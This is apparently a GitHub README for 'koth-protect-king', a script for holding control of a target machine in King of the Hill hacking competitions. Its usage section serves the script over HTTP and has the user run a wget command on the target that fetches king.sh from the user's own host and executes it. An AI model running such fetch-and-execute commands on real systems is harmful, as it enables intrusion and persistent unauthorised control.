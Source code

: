 # koth-protect-king
A script to protect your king in KoTH

# A script to protect your king

## Mode of use 

```
git clone https://github.com/MatheuZSecurity/koth-protect-king 
```

```
cd koth-protect-king && python3 -m http.server 80
```

## In KoTH Machine

```
wget http://youripvpn/king.sh && chmod +x king.sh && ./king.sh
```

#### then you just put your nick and the script already does all the work

![king](https://user-images.githubusercontent.com/88067225/168189766-61b494d2-12e5-4393-beb9-9978a88615f2.png)

#### NOICE: script updates will be made from time to time

